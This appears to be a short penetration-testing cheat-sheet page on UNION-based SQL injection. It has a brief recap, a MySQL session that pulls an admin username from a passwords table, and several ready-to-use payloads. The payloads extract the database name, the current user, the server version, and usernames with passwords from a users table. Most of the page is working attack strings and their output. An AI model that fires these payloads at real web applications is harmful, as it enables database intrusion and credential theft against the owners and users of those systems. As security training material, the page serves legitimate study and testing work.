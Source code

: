 # UNION Based SQL Injection





## Recap

UNION clauses allow for an additional SQL statement. It's always worth testing for this type of injection. WE MUST FILL ADDITIONAL COLUMNS WITH JUNK DATA.

```shell-session
mysql> SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '

+-----------+-----------+-----------+-----------+
| product_1 | product_2 | product_3 | product_4 |
+-----------+-----------+-----------+-----------+
|   admin   |    2      |    3      |    4      |
+-----------+-----------+-----------+-----------+
```



### Examples

```sql
%' UNION SELECT database(), user(), @@version, null, null -- //
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



```sql
' UNION SELECT null, null, database(), user(), @@version  -- //
```

```sql
' UNION SELECT null, username, password, description, null FROM users -- //
```

> \
>
